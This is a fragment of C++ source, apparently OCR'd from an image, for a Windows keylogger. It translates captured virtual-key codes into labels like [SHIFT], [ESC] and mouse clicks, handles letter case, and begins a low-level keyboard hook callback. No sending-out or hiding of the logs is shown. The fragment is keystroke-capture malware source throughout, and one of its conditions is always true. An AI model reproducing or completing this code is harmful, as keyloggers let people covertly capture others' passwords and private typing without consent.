 ```cpp
		print("%s", "[LSHIFT]");
		break;
	case VK_RSHIFT:
		print("%s", "[RSHIFT]");
		break;
	default:
		print("%s", "");
		break;
	case VK_CONTROL:
		print("%s", "[CTRL]");
		break;
	case VK_ESCAPE:
		print("%s", "[ESC]");
		break;
	case VK_DOWN:
		print("%s", "[DOWN]");
		break;
	case VK_UP:
		print("%s", "[UP]");
		break;
	case VK_LEFT:
		print("%s", "[LEFT]");
		break;
	case VK_RIGHT:
		print("%s", "[RIGHT]");
		break; //da conflicto
	case VK_LBUTTON:
		print("%s", "[LCLICK]");
		break;
	case VK_RBUTTON:
		print("%s", "[RCLICK]");
		break;
	}
	if (pressedKey > 96 && pressedKey < 105) {
		print("%c", pressedKey - 48);
	}
	else if (pressedKey != VK_LBUTTON || pressedKey != VK_RBUTTON) {
		if (pressedKey > 64 && pressedKey < 91) {
			if (GetKeyState(VK_CAPITAL)){
				if (!GetAsyncKeyState(VK_SHIFT)) {
					print("%c", pressedKey);
				}
				else {
					print("%c", pressedKey + 32);
				}
			}
			else{
				if ( GetAsyncKeyState(VK_SHIFT)) {
					print("%c", pressedKey);
				}
				else {
					print("%c", pressedKey + 32);
				}
			}
		}
	}

}

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	if (nCode == HC_ACTION && wParam == WM_KEYUP)
	{
```